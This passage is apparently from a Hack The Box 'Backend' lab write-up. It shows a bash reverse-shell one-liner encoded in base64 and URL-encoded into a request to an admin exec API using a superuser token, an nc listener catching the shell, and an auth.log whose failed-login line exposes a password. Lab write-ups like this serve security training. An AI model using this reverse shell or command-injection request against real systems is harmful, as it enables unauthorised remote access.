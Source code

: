 ```shell
[root@kali Backend ]$ echo "bash  -i >& /dev/tcp/10.10.14.14/9001  0>&1 " | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQvOTAwMSAgMD4mMSAK
```
Now we can try to execute our payload.  
As discovered, to make this work, we'll need to urlencode all the characters:  
```http
GET /api/v1/admin/exec/%65%63%68%6f%20%27%59%6d%46%7a%61%43%41%67%4c%57%6b%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4e%43%38%35%4d%44%41%78%49%43%41%77%50%69%59%78%49%43%41%4b%27%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68 HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.nD_DAYky7bKJXhL0V50S7suaJxgcoPuyNQ5D0qCLDzI
Content-Length: 2
```
and finally, we get a shell as `htb` user:  
```
root@kali:~/Documents/HTB/Boxes/Backend# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.161] 38502
bash: cannot set terminal process group (669): Inappropriate ioctl for device
bash: no job control in this shell
htb@Backend:~/uhc$ id
id
uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

## Root
Once we are into the system, we can see an `auth.log` file.  
As we open it, we can see the following:  
```shell
htb@Backend:~/uhc$ cat auth.log 
07/26/2022, 15:51:43 - Login Success for admin@htb.local
07/26/2022, 15:55:03 - Login Success for admin@htb.local
07/26/2022, 16:08:23 - Login Success for admin@htb.local
07/26/2022, 16:11:43 - Login Success for admin@htb.local
07/26/2022, 16:16:43 - Login Success for admin@htb.local
07/26/2022, 16:20:03 - Login Success for admin@htb.local
07/26/2022, 16:33:23 - Login Success for admin@htb.local
07/26/2022, 16:41:43 - Login Success for admin@htb.local
07/26/2022, 16:43:23 - Login Success for admin@htb.local
07/26/2022, 16:50:03 - Login Success for admin@htb.local
07/26/2022, 16:58:23 - Login Failure for Tr0ub4dor&3
07/26/2022, 16:59:58 - Login Success for admin@htb.local
07/26/2022, 17:00:03 - Login Success for admin@htb.local
07/26/2022, 17:00:23 - Login Success for admin@htb.local
07/26/2022, 17:01:43 - Login Success for admin@htb.local
07/26/2022, 17:06:43 - Login Success for admin@htb.local
07/26/2022, 17:13:23 - Login Success for admin@htb.local
07/27/2022, 16:21:52 - Login Failure for b0d
07/27/2022, 16:33:15 - Login Failure for bodd
07/27/2022, 16:33:36 - Login Success for b0d@haha.com
07/27/2022, 16:39:12 - Login Success for b0d@haha.com
07/27/2022, 17:03:33 - Login Success for admin@htb.local
07/27/2022, 17:13:39 - Login Success for admin@htb.local
```
